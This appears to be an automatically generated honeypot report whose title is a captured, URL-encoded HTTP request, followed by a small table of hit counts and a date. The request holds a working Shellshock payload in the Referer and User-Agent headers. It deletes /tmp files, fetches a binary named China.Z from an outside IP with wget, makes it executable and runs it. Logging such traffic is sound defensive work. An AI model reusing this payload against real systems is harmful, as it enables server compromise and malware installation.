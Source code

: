 # Analysis for /GET%20/%20HTTP/1.1%20Host:%203.7.80.171%20Referer:%20()%20%7B%20:;%20%7D;%20/bin/bash%20-c%20%22rm%20-rf%20/tmp/*;echo%20wget%20http://205.185.122.121/China.Z%20-O%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20echo%20By%20China.Z%20%3E%3E%20/tmp/Run.sh;echo%20chmod%20777%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20rm%20-rf%20/tmp/Run.sh%20%3E%3E%20/tmp/Run.sh;chmod%20777%20/tmp/Run.sh;/tmp/Run.sh%22%20Accept:*/*%20User-Agent:%20()%20%7B%20:;%20%7D;%20/bin/bash%20-c%20%22rm%20-rf%20/tmp/*;echo%20wget%20http://205.185.122.121/China.Z%20-O%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20echo%20By%20China.Z%20%3E%3E%20/tmp/Run.sh;echo%20chmod%20777%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20/tmp/China.Z-rcja%20%3E%3E%20/tmp/Run.sh;echo%20rm%20-rf%20/tmp/Run.sh%20%3E%3E%20/tmp/Run.sh;chmod%20777%20/tmp/Run.sh;/tmp/Run.sh%22%20Connection:Keep-Alive
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 